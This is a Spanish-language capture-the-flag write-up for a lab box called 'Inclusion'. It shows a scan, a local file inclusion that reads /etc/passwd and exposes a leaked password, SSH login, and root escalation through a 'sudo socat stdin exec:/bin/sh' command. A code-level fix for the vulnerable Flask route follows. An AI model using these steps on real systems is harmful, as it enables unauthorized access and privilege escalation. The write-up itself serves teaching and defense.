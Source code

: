 # Inclusion
Room sencillita para explotar un LFI

## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
```
## Enum
### HTTP

Vemos que los articulos se indexan mediante el nombre directo del archivo
```
http://10.10.30.43/article?name=lfiattack
```
Probamos a indexar algún archivo mas sensible como /etc/passwd
```
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
```
Usamos esas creds en el ssh y pa dentro

## Privesc
```
User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
Y simplemente ejecutamos 
```
sudo socat stdin exec:/bin/sh
```
Y listo, ya somos root

# Analisís de la intrusión
### LFI 
El codigo utilizado permite indexar archivos de manera arbitraria 
### Insecure password mangment
Por algun motivo las cred de falconfeast estan en el passwd 
### Privileged socat execution
El usuario falconfeast puede utilizar socat como root, lo cual nos permitio elevar privilegios a root

# Soluciones
### LFI 
Se podría corregir el codigo para evitar la lectura de archivos,asi como tmb seria recomendable limitar el acceso a ciertos archivos a www-data mediante el uso de AppArmor
#### Código
La función culpable es la siguiente
```python
@app.route('/article', methods=['GET'])
def article():

    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'

    try:
        template = open('/home/falconfeast/articles/{}'.format(page)).read()
        return render_template('show.html', data=template)
    except Exception as e:
        template = e

    return render_template('article.html', template=template)
```
Si hacemos unos pequeños ajustes podemos evitar los principales vectores de ataque LFI sin problema
```python
@app.route('/article', methods=['GET'])
def article():

    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'

    try:
        if(("/" in page ) or ("%252e" in page) or ('\\' in page)):
                pass
        else:
                template = open('/home/falconfeast/articles/{}'.format(page)).read()
                return render_template('show.html', data=template)
    except Exception as e:
        template = e

    return render_template('article.html', template=template)
```
Con esto tenemos bastante solucionado ya que los principales metodos funcionales para indexar archivos mediante LFI quedan cubiertos
### Privileged socat execution
Permitir a un usuario regular ejecutar socat como root no parece algo con mucho sentido, la principal opción para mitigar esto seria eliminar este permiso si por algún casual se diese un caso en el que esto fuera necesario lo ideal seria introducir el comando entero en /etc/sudoers limitando bastante la explotación y aun asi lo optimo seria establecer una politica de Seccomp al respecto
